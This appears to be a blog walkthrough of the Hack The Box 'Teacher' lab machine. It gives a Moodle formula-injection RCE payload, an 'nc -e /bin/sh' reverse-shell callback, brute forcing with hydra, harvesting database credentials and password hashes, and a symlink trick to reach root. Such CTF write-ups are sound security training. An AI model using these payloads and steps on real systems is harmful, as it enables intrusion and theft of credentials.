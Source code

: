 ```yaml
---
title:  "Hack The Box: Teacher - Walkthrough"
date:   2019-05-29 15:04:23
---
```


One of the first hack the box machines that i've rooted. This box took me hella long, but in the end it paid off. Here is my walkthrough of the machine.

![](/assets/2/1.png)

<h2>Enumeration</h2>
As always we will start off with our nmap scan.

```
mkdir scans
nmap -sV -sC -oA scans/nmapinitial 10.10.10.153
```

![](/assets/2/2.png)

HTTP is running on port 80. I decided to run dirb in the background and do some manual enumeration in the meantime.

```
dirb http://10.10.10.153
```

In our nmap result we noticed that the website is titled ‘blackhat highschool’. In the source on the gallery page i found something interesting.

![](/assets/2/3.png)

There is only 1 image with an onerror atribute to print something in the console. It’s also not displaying properly on the gallery page.

![](/assets/2/4.png)

When going directly to the image itself it gives us an error.

![](/assets/2/5.png)

Interesting. The file can be corrupted but i decided to do some more research to determine whether it’s something more.

![](/assets/2/6.png)

![](/assets/2/7.png)

Great, we have a username and a password that is missing it’s last character. In the meantime our dirb scan has finished and it’s found the /moodle directory with a login function. I searched for possible exploits using searchsploit but most involved getting acces to a teachers account.

![](/assets/2/8.png)

Great, we have our entry point; the login page for the moodle directory and a username + password that is missing it’s final character. I decided to create a custom wordlist with all the possible characters and run it through hydra.

![](/assets/2/9.png)

![](/assets/2/10.png)

Cool, we have the password. Let’s login!

![](/assets/2/11.png)

<h2>Exploitation</h2>
After enumerating without any success I decided to search on Google and found an interesting article. You can visit the article by clicking [here](https://blog.ripstech.com/2018/moodle-remote-code-execution/).

You can follow the video in the article for this part as it’s perfectly explained. I’ll go through this rather quickly.

```
Go to Algebra course > select the quiz > Edit Quiz > Add a new question > Choose Calculated > Click Add > Put something random in question name and text as they're required. 
```

In the Formula field, add:

```
/*{a*/`$_GET[t]`;//{x}}
```

Put grade to 100% and press Save Changes > Next page and once done you’ll see a page with ‘ Edit the wildcards datasets’ somewhere in the center of the screen. Next we are able to pass system commands through a url parameter called ‘t’. For more information please visit the previously mentioned article.

Add this to the end of the url and make sure your netcat is listening on the specified port.

```
&t=(date;nc -e /bin/sh IP 9001)
```

![](/assets/2/12.png)

![](/assets/2/13.png)

Once you’ve send the request, our listener will get a callback and we get a reverse shell as www-data.

![](/assets/2/14.png)

As we are unable to view the home directory of giovanni, we have to escalate privileges.

<h2>Privilege Escalation to giovanni</h2>
I decided to go through the moodle directory in /var/www/html/moodle and check the config files and stuff to see if there is anything interesting.

![](/assets/2/15.png)

Nice, database credentials! Let’s see if there’s anything juicy stored in there.

![](/assets/2/16.png)

We can check out the list of databases with:

```
SHOW DATABASES;
```

Moodle is interesting and might have some passwords.

```
USE moodle;
```

Check the tables.

```
SHOW TABLES;
```

We get a bunch of tables, mdl_user sounds interesting.

```
SELECT * FROM mdl_user;
```

I went over the output and found an md5 hash. Searched online for an online md5 cracker and got a result.

![](/assets/2/17.png)

The password is ‘expelled’, we can su to giovanni.

![](/assets/2/18.png)

In giovanni’s home directory we find the user.txt!

![](/assets/2/19.png)

<h2>Getting root.txt</h2>
In giovanni’s home directory there is a directory called work, which has two directoies courses and tmp. After enumerating for a while i found a backup.sh script in /usr/bin. When i took a look at this script i noticed that it’s backing up data and changing directories with 777 recursively.

I watched alot of ippsec’s write-ups about retired machines. This situation reminded me of a write up about the Joker machine. The technique i learned in this video can be used here. We can create a symlink and trick the system into backing up the root directory in /home/giovanni/work/courses. Let’s create our symlink!

```
ln -s /root/ courses
```

Once done, we just had to wait for a bit and we got root key!

![](/assets/2/20.png)

Thanks for reading and happy hacking!

